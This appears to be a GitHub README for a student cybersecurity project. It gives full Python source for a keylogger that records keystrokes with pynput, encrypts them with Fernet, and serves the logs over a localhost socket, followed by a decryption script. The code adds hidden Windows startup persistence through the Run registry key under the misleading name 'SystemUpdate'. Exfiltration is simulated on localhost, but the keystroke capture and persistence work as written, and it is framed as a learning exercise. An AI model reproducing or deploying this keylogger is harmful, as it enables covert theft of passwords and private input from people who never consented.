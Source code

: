 # Elevate-Labs-Final-Project-Submission---Keylogger

**Keylogger with Encrypted Data Exfiltration**       
**Objective:** Build a proof-of-concept keylogger that encrypts logs and simulates exfiltration.    

**Tools:** Python, pynput, cryptography, base64     
**Mini Guide:**
a. Capture keystrokes using pynput.     
b. Encrypt data using cryptography.fernet.    
c. Store logs locally with timestamp.       
d. Simulate sending to a remote server (localhost).    
e. Add startup persistence and kill switch.    

![image](https://github.com/user-attachments/assets/9eddcf20-65db-4d5b-a457-fb6a1ee65073)

![image](https://github.com/user-attachments/assets/1787008b-f066-41a7-821b-d97105ae4197)

![image](https://github.com/user-attachments/assets/60fe28d4-6bbe-436a-baa3-fa645d883e95)


**Deliverables: Encrypted Keylogger PoC with Ethical Constraints and Logs**

### 1. **Main Python Script**

**Filename:** `keylogger.py`     
**Contains:**

* Fernet key generation and loading
* Keystroke capture using `pynput`
* AES encryption of logs
* Log writing with timestamps
* Localhost TCP exfiltration using sockets
* Kill switch (`q!exit`)
* Windows startup persistence via registry

```python
import os
import socket
import threading
import base64
from pynput import keyboard
from cryptography.fernet import Fernet
from datetime import datetime
import platform

# CONFIGURATION 
KEY_FILE = "key.key"
LOG_FILE = "encrypted_log.txt"
KILL_SWITCH = "q!exit"
log = ""

# Generate or Load Encryption Key
def generate_key():
    key = Fernet.generate_key()
    with open(KEY_FILE, "wb") as f:
        f.write(key)

def load_key():
    if not os.path.exists(KEY_FILE):
        generate_key()
    with open(KEY_FILE, "rb") as f:
        return f.read()

key = load_key()
fernet = Fernet(key)

# Encrypt and Write Logs
def encrypt_log(data):
    return fernet.encrypt(data.encode())

def write_log(encrypted_data):
    with open(LOG_FILE, "ab") as f:
        f.write(encrypted_data + b"\n")

# Capturing Keystrokes    
def on_press(key):
    global log
    try:
        k = key.char
    except AttributeError:
        k = f"[{key}]"
    
    log += k

    if KILL_SWITCH in log:
        print("[*] Kill switch triggered. Stopping keylogger.")
        return False

    if len(log) >= 10:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        data = f"[{timestamp}] {log}"
        encrypted = encrypt_log(data)
        write_log(encrypted)
        log = ""

# Simulate Exfiltration Server 
def simulate_exfiltration():
    def server():
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            s.bind(("localhost", 4444))
            s.listen(1)
            print("[*] Exfiltration server running on localhost:4444")

            conn, addr = s.accept()
            print(f"[+] Connected from {addr}")

            with open(LOG_FILE, "rb") as f:
                for line in f:
                    try:
                        conn.sendall(line)
                    except (ConnectionResetError, ConnectionAbortedError) as ce:
                        print(f"[!] Connection closed by client: {ce}")
                        break
                    except Exception as e:
                        print(f"[!] Unexpected error: {e}")
                        break

            conn.close()
            s.close()

        except Exception as e:
            print(f"[!] Server error: {e}")

    threading.Thread(target=server, daemon=True).start()

# Windows Startup (Persistence)    
def add_startup():
    if platform.system().lower() == "windows":
        try:
            import winreg as reg
            file_path = os.path.realpath(__file__)
            key = reg.HKEY_CURRENT_USER
            key_value = r"Software\Microsoft\Windows\CurrentVersion\Run"
            open_key = reg.OpenKey(key, key_value, 0, reg.KEY_ALL_ACCESS)
            reg.SetValueEx(open_key, "SystemUpdate", 0, reg.REG_SZ, file_path)
            reg.CloseKey(open_key)
            print("[*] Persistence added to startup.")
        except Exception as e:
            print(f"[!] Persistence error: {e}")

# Starting Keylogger     
def start_keylogger():
    add_startup()
    simulate_exfiltration()
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    print("[*] Starting Keylogger...")
    start_keylogger()

```

### 2. **Generated Key File**

**Filename:** `key.key`    
**Purpose:** Stores the Fernet symmetric encryption key.

### 3. **Encrypted Log File**

**Filename:** `encrypted_log.txt`    
**Contains:** 
Encrypted, timestamped keystroke entries.    

![image](https://github.com/user-attachments/assets/62caff5a-ddcd-4717-8e44-b33aa052944d)    
These are encrypted keystroke logs, sent from your keylogger to the local server (localhost:4444).


### 4. **Decryption Script**

**Filename:** `decrypt_logs.py`    
**What it does:** Reads `key.key` and `encrypted_log.txt`, decrypts entries, and displays readable logs.

```python
from cryptography.fernet import Fernet

with open("key.key", "rb") as key_file:
    key = key_file.read()

fernet = Fernet(key)

with open("encrypted_log.txt", "rb") as log_file:
    for line in log_file:
        try:
            decrypted = fernet.decrypt(line.strip()).decode()
            print(decrypted)
        except Exception as e:
            print(f"Failed to decrypt: {e}")
```


